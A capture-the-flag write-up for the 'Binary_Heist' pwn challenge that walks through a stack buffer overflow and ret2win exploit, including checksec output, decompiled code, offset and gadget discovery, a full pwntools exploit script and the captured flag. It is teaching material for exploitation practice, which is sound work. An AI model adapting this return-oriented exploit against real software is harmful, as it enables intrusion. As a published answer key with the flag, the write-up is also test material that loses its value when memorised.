 # Binary_Heist

**Description**:  
Welcome `Agent 007`, infiltrate the vault and succeed in the greatest binary heist in history.

**Author:  [Ath3n1x](https://twitter.com/Ath3n1x)**

**Solution**: 
Looks like Agent 007 is back. Ok, It's `checksec` time:
```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```
`No PIE and Partial RELRO`, so options like ret2win and got overwrite might be possible. `No canary` also.

Now lets try running the binary:
```
Agency: Welcome, Agent 007. Your mission is to infiltrate the enemy vault.
System: Enter your name for log: 
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
System: Log entry successful! You will be granted access on entering the correct passcodes.
Segmentation fault (core dumped)
```

Ok so we can overflow the buffer. Lets look at the binary in ida/ghidra. There seems to be a win function called `infiltrate`:
```
void infiltrate(long param_1,long param_2)

{
  undefined8 local_16;
  undefined4 local_e;
  undefined2 local_a;
  
  local_16 = 0x6c75617620746163;
  local_e = 0x78742e74;
  local_a = 0x74;
  if ((param_1 == L'\x1337c0d3') && (param_2 == L'\xacedc0de')) {
    puts("System: Operation Binary Heist - Top-Secret Flag:");
    system((char *)&local_16);
  }
  else {
    puts("WARNING: Intruder!!!. Authorities have been warned.");
  }
  return;
}
```

Yep, its a ret2win with arguments. Now we can hand everything over to gdb.

**TODO**:
*1. ~~Find offset~~*
```
pwndbg> cyclic -l daaaaaaa
Finding cyclic pattern of 8 bytes: b'daaaaaaa' (hex: 0x6461616161616161)
Found at offset 24
```
                            So a padding of length: 24.


*2. ~~Find suitable gadget~~*    
```
$ ROPgadget --binary binary_heist | grep "pop rdi"
0x0000000000401207 : pop rdi ; pop rsi ; ret
```

*3. ~~Get address of win function~~*

`0x0000000000401243  infiltrate`


*4. ~~Craft payload~~*
`payload = offset + p64(pop_rdi_rsi_ret) + p64(0x1337c0d31337c0d3) + p64(0xacedc0deacedc0de) + p64(0x401243)`

**Exploit:**
```
from pwn import *

def start(argv=[], *a, **kw):
    if args.GDB:  
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE: 
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else: 
        return process([exe] + argv, *a, **kw)

gdbscript = '''
init-pwndbg
b *main
b *input
b *infiltrate
continue
'''.format(**locals())

exe = './binary_heist'
elf = context.binary = ELF(exe, checksec=False)
context.log_level = 'debug'

===========================================================

offset = b'a'*24

#io = remote("13.234.11.113",31491)
io = start()

io.recvuntil('log:')

pop_rdi_rsi_ret = 0x401207

print(elf.functions.infiltrate)

payload = offset + p64(pop_rdi_rsi_ret) + p64(0x1337c0d31337c0d3) + p64(0xacedc0deacedc0de) + p64(0x401243) 

io.sendline(payload)

io.interactive()
```

On running the script:
```
[DEBUG] Received 0x2b bytes:
    b'shaktiCTF{C0ngr4t5!_n0w_s1ng_0_b3ll4_c140}\n'
shaktiCTF{C0ngr4t5!_n0w_s1ng_0_b3ll4_c140}
```
:::
:thumbsup: Success
:::

Flag: `shaktictf{C0ngr4t5!_n0w_s1ng_0_b3ll4_c140}`   
